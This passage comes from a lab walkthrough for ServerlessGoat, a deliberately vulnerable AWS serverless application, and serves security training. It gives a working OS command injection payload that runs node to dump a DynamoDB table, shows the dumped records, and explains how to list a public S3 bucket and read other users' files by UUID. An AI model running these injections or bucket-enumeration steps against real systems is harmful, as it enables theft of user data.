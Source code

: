 - dynamodb:BatchWriteItem
- dynamodb:BatchGetItem
- dynamodb:DescribeTable
```
These permissions will now allow us to exploit the OS command injection weakness, to exfiltrate data from the DynamoDB table, by abusing the `dynamodb:Scan` permission:

Let's use the following payload in the URL field, and see what happens:
```
https://; node -e 'const AWS = require("aws-sdk"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'
```
**Bingo!** we got the entire contents of the table:
```
{ Items: [ { document_url: 'https://mmm; env #', id: '9737d9bd-02d5-11e9-8e7b-4f1a91d122d7', ip: 'XX.XXX.XXX.XX' }, { document_url: 'http://mmm; env #', id: 'b7c18b3a-02ed-11e9-a3d5-175f28e986d4'
...
...
```

**Extra Credit** You can use the same approach, to access and tamper data inside the S3 bucket. Try it!


### Lesson 5: Abusing Insecure Cloud Configurations ###
By now, we're sure you are well aware of the many publicly open S3 buckets out there. This happens when you deploy cloud resources without following security best-practices. The same thing exists in our application. We already know the name of the bucket used by the application - we got it in the BUCKET_NAME environment variable, and frankly, it wasn't that difficult to spot it in the redirect URL of the response to the convert operation:

`http://aws-serverless-repository-serverless-goat-bucket-{string}.s3-website-{region}.amazonaws.com/{uuid}`

So, the bucket is called: `aws-serverless-repository-serverless-goat-bucket-{string}`

Let's try to request it. Just paste the bucket name in the following format, in your browser's URL line: `http://aws-serverless-repository-serverless-goat-bucket-{string}.s3.amazonaws.com/`

You should get a full listing of the entire bucket contents. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>aws-serverless-repository-serverless-goat-bucket-{string}</Name><Prefix></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>0858ac61-cdcf-486e-93c4-c05d31e58f93</Key><LastModified>2018-12-18T12:03:22.000Z</LastModified>
<ETag>&quot;ce1ed7ade5ee78fabeba4e31d307b67f&quot;</ETag><Size>2605</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>12776bf6-c034-4590-a1df-5dc8a5d9a810</Key><LastModified>2018-12-18T14:43:11.000Z</LastModified><ETag>&quot;f5c029f6b1af90e22f57a5cebbe14e47&quot;</ETag><Size>1942</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>14b7a569-6619-4117-8a01-4430b975b676</Key>
...
...
```
You can now try to browse other files in the bucket, belonging to other user's 'convert' operations by concatenating the uuid to the URL (that's the file name).
